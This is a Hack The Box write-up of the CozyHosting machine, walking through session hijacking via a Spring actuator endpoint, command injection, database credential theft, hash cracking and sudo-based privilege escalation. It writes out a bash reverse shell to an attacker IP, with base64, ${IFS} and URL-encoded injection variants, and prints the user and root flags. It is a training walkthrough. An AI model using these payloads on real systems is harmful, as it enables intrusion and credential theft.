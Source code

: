 # CozyHosting
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fa4c16d1-f3fe-47c6-810f-466d37c566a6)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.230 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 22:59 PDT
Nmap scan report for 10.10.11.230
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.72 seconds
```

1. Based from the nmap results, the machine runs a webapp and opens ssh logins.

> WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd9b7161-dbf0-4b00-b073-ef80301da3e2)


2. The wappalyzer itself shows us minimum info (for version).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1850a964-0b31-4a53-961a-1beee364802c)


3. Hence i ran dirsearch to list all directories or files available for this webapp.

> RESULTS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5697fb2f-fb43-476f-8efc-705146d76b30)


4. `admin` page and `actuator` directory should be our interest here.
5. Opens `actuator/sessions` shall resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/617cbf55-e5f0-470d-a54c-53965f5817bb)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e95e9939-f036-4f73-af4a-6a7330e23f2c)


6. Noticed there's a user session with name `kanderson` (Informatin Disclosure).
7. Let's change our session to kanderson's, then refresh the page.

 ![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a7c8c241-4cfa-4d95-a058-7c0bdd8b7d4f)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fac50408-3393-41e8-8df3-b4d2f3cf9604)


8. Scrolling down you shall see an input box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dbbc52af-baf7-45d6-9dd8-036986c88b27)


9. This should be our interest. To identify what's the vuln, let's capture the request we send using burpsuite.
10. Let's just fill the hostname with our tun0 interface and leave username empty, we just want to know what response might the server give.

> IN BURPSUITE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c2035f5f-dcc6-41f9-9f08-2a892ecfe5ba)


11. Noticed the server responds an error for the ssh command.
12. This make it clear, that the vuln should be related to command injection.
13. The idea is using basic bash reverse shell payload:

> BASH REVERSE SHELL PAYLOAD

```txt
bash -i >& /dev/tcp/10.10.16.14/1337 0>&1
```

> ENCODE IT TO BASE64 (adding -w 0, to make sure the output is a single line command)

```
echo "bash -i >& /dev/tcp/10.10.16.14/1337 0>&1" | base64 -w 0
```

> RESULT

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK
```

14. Great! Now for the final payload, because we want the server to decode our payload first then execute it, hence we use `base64 -d`.
15. But again, we need to encode it again with `url-encode` to terminate all the spaces.
16. The best practice is to use --> `${IFS%??}` to avoid spaces or other characters that may be treated as delimiters by the shell.
17. Then we url-encode the payload, set listener and send our payload.

> PAYLOAD

```
Original one:

echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK" | base64 -d | bash;

Adding ${IFS%??} to covering whitespaces

;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

URL-ENCODE:

%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA%2BJjEK%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D%2Dd%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d7f115a-0819-4aa5-b627-3d54677ed0cd)


18. At this point we can't get user flag, because we're not having the shell as "josh".

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a925e28b-c55b-4833-b19a-99e927f38459)


19. Noticed there's a .jar file which might be our interest.
20. Let's setup a python server at the remote server and download the file to our local machine.

#### NOTES: setup python server at port other than 80.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1b6709ea-e312-4421-8cce-40996c53d1df)


21. Well if you noticed, it failed to download it full.
22. Hmm, confused here, but anyway since we opens python server at port 8000, accessing the remote host with port 8000 shall shown this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0baf88f9-bf8d-49f3-8c81-5a60662244b9)


23. Let's download it manually.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b6b219f6-0f33-4010-bc31-003450d26de8)


> DECOMPILING IT WITH JD-GUI

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/017cf7f2-8d89-4797-b0fa-24d2f0c283dd)


24. Interesting, we found a **postgres** cred.
25. Let's access `psql` at the remote server.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/01837280-db9b-4d0b-a325-512bf643d3a7)


26. Run --> `\l` to list all the databases available.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8f630db5-1b44-4adc-89a3-759db0298432)


27. Great! Let's connect to `cozyhosting` --> run `\c cozyhosting`.
28. To dump all the tables run -> `\d`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/de6584c5-0f47-4752-8e01-a0880437bae1)


> DUMPING users column.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/18e97676-389a-4574-925f-665faf90e4ab)


29. Interesting, **users** table should be our interest. Let's select all from it.

> SELECT * FROM public.users;

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7df3bd4f-d4c7-4b02-bd63-8c6bce6324f6)


30 Awesome! Let's crack all the hashed password with john.
31. I started to cracking the first hash with john and while waiting for john to cracks hash, I identify the hash using `hashid`, which allows to use **hashcat**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10b7aec7-339c-4a98-8c7a-4f7d90adf1e5)


32. Because time is money 🙏🏼.

> GRABBING THE HASHCAT CODE FOR BCRYPT.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6ecb07c4-8c7c-415f-b4f2-14ab9e974068)


33. Found nothing for the kanderson's hash.
34. But succeed cracks the password for admin's hash.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/143e3bf4-794a-4bd8-871c-1b5ad173d2dd)


35. Hmm.. Remembering our remote /home dir is **josh**, we make an interpretes of potential **password reuse**.
36. Turns out it is.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b3c28583-d323-4156-be5d-19fbdb29790a)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/37046df1-18e2-47d6-9adb-ccdb4cfee70f)


## USER FLAG

```
83cfd0650592f468972d63e44761211a
```

37. Checking sudo permissions for **josh** resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60eef894-3c47-425b-9de4-d733ef3ed2a3)


38. **ssh** command is being run as root.
39. Diving on the internet and searching for `ssh gtfobins` exploit, shall resulting to this --> `https://gtfobins.github.io/gtfobins/ssh/`

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e7a98b44-9fe7-4344-9aff-aead90826b51)


40. Using it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/210a6f59-891f-4023-b1ba-e2a94c56b808)


41. Successfully gained root!

> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0d16d0b5-aa7a-4bd6-a976-ad4d11d52176)


## ROOT FLAG

```
5783572fa5559507b67cfbd6636c934e
```





